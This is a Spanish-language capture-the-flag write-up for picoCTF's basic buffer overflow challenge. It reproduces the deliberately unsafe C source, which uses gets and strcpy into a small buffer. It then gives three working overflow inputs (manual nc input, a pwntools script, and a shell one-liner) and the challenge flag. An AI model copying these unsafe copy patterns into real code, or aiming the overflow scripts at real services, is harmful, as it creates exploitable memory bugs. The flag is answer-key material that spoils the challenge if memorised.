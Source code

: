## Objetivo
Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/172/vuln). You can view source [here](https://artifacts.picoctf.net/c/172/vuln.c). Connect using: `nc saturn.picoctf.net 58938`
## Solución

```bash
┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/bufferoverflow0]
└─$ ls
vuln  vuln.c

┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/bufferoverflow0]
└─$ nano vuln.c            
```
- Revisamos el código del programa que nos dan.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
- Observamos que la variable buf2 copia mas de lo que puede, y el lector trata de guardar algo mas grande de lo que puede, por lo tanto se provoca un desborde.
- A partir de aquí podemos obtener la bandera de 3 formas diferentes.
### Opción 1
- Ingresamos un largo texto para que se desborde.
```bash
┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/bufferoverflow0]
└─$ nc saturn.picoctf.net 58938
Input: anjnokanfoknfknjonaofnofnonaoagngajsnfej
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/bufferoverflow0]
└─$ 
```

### Opción 2
- Creamos un ejecutivo en Python 
```python
from pwn import *
#p = process()
p =remote('saturn.picoctf.net', 58938)
print(p.recv().decode())

overflow = b'E'*20

p.sendline(overflow)
print(p.recvall().decode())
p.close()
```
- Y ya solo lo ejecutamos.
```
┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/bufferoverflow0]
└─$ python3 solve.py
[+] Opening connection to saturn.picoctf.net on port 54341: Done
Input: 
[+] Receiving all data: Done (43B)
[*] Closed connection to saturn.picoctf.net port 54341
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/bufferoverflow0]
└─$ 

```

### Opción 3
- Le enviamos una función que envié un texto largo.
```bash
┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/bufferoverflow0]
└─$ nc saturn.picoctf.net 58938 <<< $(python3 -c "print('I'*20)")
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/bufferoverflow0]
└─$ 

```

## Notas Adicionales
## Referencias
